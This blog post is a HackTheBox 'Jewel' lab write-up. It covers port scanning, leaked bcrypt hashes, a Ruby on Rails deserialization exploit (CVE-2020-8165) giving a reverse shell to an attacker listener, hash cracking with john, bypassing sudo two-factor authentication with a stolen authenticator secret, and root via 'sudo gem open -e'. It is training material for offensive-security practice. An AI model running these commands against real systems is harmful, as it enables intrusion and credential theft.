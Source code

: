 ```yaml
---
layout: post
title:  "HackTheBox Jewel Writeup" 
tags: hackthebox ruby-on-rails deserialization-attackgoogle-authenticator gem 
categories: hackthebox active-machine 
rel-img: /assets/img/htb/jewel/jewel.png
description: Exploiting ruby on rails vulnerability to gain first access, escalating priviledge using google authenticator and take advantage to sudo and gem to conquer the machine!!
---
```


### Hackthebox Jewel Writeup
![Jewel](/assets/img/htb/jewel/jewel.png)

## Abstract

Expoit OpenBSD vulnerabilities to conquer the machine!!

## Summary
1. Initial foothold
  - Nmap recon
  - gitweb enum
  - phusion passenger exploration
2. Ruby on Rails Deserialization Attack
3. User Flag
4. Priviledge Escalation
5. Root Flag

## Initial foothold

### Nmap recon

```
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 09:27 CEST
Nmap scan report for 10.10.10.211                                                                                                                                                                                                          
Host is up, received echo-reply ttl 63 (0.053s latency).                                                                                                                                                                                   
Scanned at 2020-10-23 09:27:54 CEST for 23s                                                                                                                                                                                                
Not shown: 997 filtered ports                                                                                                                                                                                                              
Reason: 997 no-responses                                                                                                                                                                                                                   
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                                              
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                                             
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)                                                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDK1T+N61bTR89bPSsTtguCPwCtq5IAemU5F9VO6hSw8hnLrQ+3Bx6Cjci6MFx9RAMOS4xVtsmqtDvmjrtQ5hYuOYXlafsv6QU+6LJ+vImDSXiunRdpck3Z6f8sIEOOtiCJZ9HDiAzE62nolJPe2ObtU/Of627MiAksFh6+oBl/ZoWnveQwY7TLgFf19IhHV4Q9OPUlqeokiWiTazbvj5jC8vWcnl+DpN3xTuiTV8b+xUyXnFyO/MBaKhRGBbcbBwOsFVPc8NFyuyardVWEblS+p6B1QG6C62/o2Ft8x9lk1cYEDaFH+IfIUGhHykFQlA8+Y4qee8+OtRKrfwkVyxOr                                                                                        
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)                                                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBgCpUS3ovp4tAKRfsFll+x5W6F28nQMhBrx06jDhK35Z10da2PX2vayLOniUTEsnb0hL/4phtNdI+QOKLPX+sg=                                                                         
|   256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA9poXYE6YrgNaTFpdzYtMPUeSwB416uWFLSrT55iwv0                                                                                                                                                         
8000/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.38                                                                                                                                                                                  
|_http-generator: gitweb/2.20.1 git/2.20.1                                                                                                                                                                                                 
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                               
| http-open-proxy: Potentially OPEN proxy.                                                                                                                                                                                                 
|_Methods supported:CONNECTION                                                                                                                                                                                                             
|_http-server-header: Apache/2.4.38 (Debian)                                                                                                                                                                                               
| http-title: 10.10.10.211 Git                                                                                                                                                                                                             
|_Requested resource was http://10.10.10.211:8000/gitweb/                                                                                                                                                                                  
8080/tcp open  http    syn-ack ttl 63 nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (91%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.39 - 3.2 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F928611%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)
```

Nmap revealed that port 22, 8000 and 8080 was open and SSH, Apache2 ,nginx webserver was respectively running on. Morevoer Nmap script gave information that webserver on 8000 was using gitweb 2.20.1 interface. 

### Gitweb enum

I started by searching for gitweb 2.21.1 available exploits but found nothing. Then i moved on enumerating gitweb web pages and found interesting file named bd.sql at URL http://10.10.10.211:8000/gitweb/?p=.git;a=blob;f=bd.sql;h=a7fddb693ca735f8aa1e4b09046cec2adddddc51;hb=HEAD, containing bill and jennifer user hashes:

`bill`:`$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`
`jennifer`:`$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy`

![gitweb file page](/assets/img/htb/jewel/jewel-gitweb.png)

I tried to crack these hashes but every attempt failed.

### Pushion Passenger exploration

So i decided to exploring web server on 8080 where Phusion Passenger 6.0.6 was running. I did not find any available eploit for this service, then i tried to register new account tthrough signup page:

![login page](/assets/img/htb/jewel/homepage-jewel.png)

After logging in i tried some attack but no luck. 

## Ruby on Rails Deserialization attack

After getting some hints from the HTB forum found that the ruby on rails version running on webserver was < 5.2.4.3 and it was vulnerable to deserialization attack (I found ruby on rails version at the URL http://10.10.10.211:8000/gitweb/?p=.git;a=commitdiff;h=5d6f436256c9575fbc7b1fb9621b18f0f8656741.

More information about this vulnerability can be found at Google Forum (https://groups.google.com/forum/#!topic/ruby-security-ann/OEWeyjD7NHY).

Following the PoC found at GitHub (https://github.com/masahiro331/CVE-2020-8165) and the python script created by @randomname83 i got reverse shell.

```
sh4ck@kali:~$ python3 exploit_poc_cve-2020-8165.py 10.10.10.211 10.10.14.83 4545

sh4ck@kali:~$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.211] 44778
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$i
``` 

## User Flag

After upgrading full interactive shell i got user flag under home bill folder.

```
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ export TERM=xterm
bill@jewel:~/blog$ cat user.txt
```
## Priviledge Escalation

Linpeas found two password hashes inside the file dump_2020-08-27.sql and bd.sql at /var/backups/ and /home/bill/blog/ respectively:

`jennifer` : `$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd5I02OnmkKnD3zA6MqMrzLKz0jeDO`

`Unknown`: `$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`

Listing the content of dump_2020-08-27.sql file got another hash of user bill:

`bill`: `$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`

Tried to crack these hashes using john.

`$ sudo john --format=bcrypt creds.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John has successfully cracked the hash and the credential is bill : spongebob. 

Tried to run the command $sudo -l  again to check any special privilege given to user bill, but it asked a Verification Code after entering the password. 
It appears that there is some two factor authentication enabled for normal users to run $sudo -l command. 
After some more enumeration got a hidden file google_authenticator inside the home directory (.google_authenticator). 
There is secret code inside this file which is 2UQI3R52WFCLE6JTLDCSJYMJH4, this code can be used to generate OTP.  
I have used authenticator addons for Firefox to generate OTP using this secret key. 

After addons installation and setting the OTP with secret key, i got otp time based number.

Copy the OTP and type the command $sudo -l then password spongebob then enter OTP as Verification code.
anyway i got some error. the issue was determinated bay time misalignment between remote server and my machine. So i had to set my machine time as per remote box. 
sudo -l revealed that user bill can run all the command using gem binary. 

```
bill@jewel:~/blog$ date
date
Mon 19 Oct 10:05:30 BST 2020
bill@jewel:~/blog$ sudo -l
sudo -l
[sudo] password for bill: spongebob

Verification code: 672111

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

## Root Flag

From GTFOBIN found gem binary privilege escalation vector using Sudo Right Exploitation to get root. Let us get root shell and capture root flag.
Getting Root Shell

```
bill@jewel:~/blog$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```
